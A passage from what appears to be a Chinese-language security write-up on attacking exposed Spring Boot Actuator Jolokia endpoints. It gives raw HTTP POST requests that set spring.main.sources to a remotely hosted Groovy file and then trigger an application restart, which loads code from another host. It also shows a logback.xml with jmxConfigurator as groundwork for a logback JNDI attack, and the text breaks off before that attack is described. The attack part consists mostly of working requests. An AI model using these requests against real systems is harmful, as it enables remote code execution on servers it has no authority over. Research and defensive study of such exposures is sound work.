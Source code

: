 除了exec执行方法之外，还有read/write等功能，比如获取Druid版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDwtPQex3zvxnY5KIVj3Ephha34ibNvdHtZyNatCU4KUOg6AHcg7kw1pg/640?wx_fmt=png&from=appmsg "")  
  
  
  
2，env POST  
  
了解了jolokia基础用法，很容易在mbean中找到一个真正有威胁的方法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDwO5KWN3J3lQ7EkSeXwzu22KslMiazTEL6JfnRWedia61LrcsDCNfmkkA/640?wx_fmt=png&from=appmsg "")  
  
它可以设置任意属性，和env POST效果一模一样，在不开启env.post.enabled=true的情况下可以代替env POST。  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 179

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "setProperty", "type": "EXEC", "arguments": ["spring.main.sources","http://127.0.0.1:8088/example.groovy"]}
```  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 106

{"mbean": "org.springframework.boot:name=Restart,type=Endpoint","operation": "restart", "type": "EXEC",}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDJDSia3iaqsZy7KLwvzYWELGYGQ6C3ALNBib7e1Cq6D6RqmpvMu4DLvJ1A/640?wx_fmt=png&from=appmsg "")  
  
  
3，logback JNDI  
  
需要使用logback且有一个合法的logback.xml文件  
```
<configuration>
    <appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
        <withJansi>true</withJansi>
        <encoder>
            <pattern>[%thread] %highlight(%-5level) %cyan(%logger{15}) - %msg %n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="STDOUT" />
    </root>
    <jmxConfigurator/>
</configuration>
```  
  
logback中存在一个可利用的Mbean  
  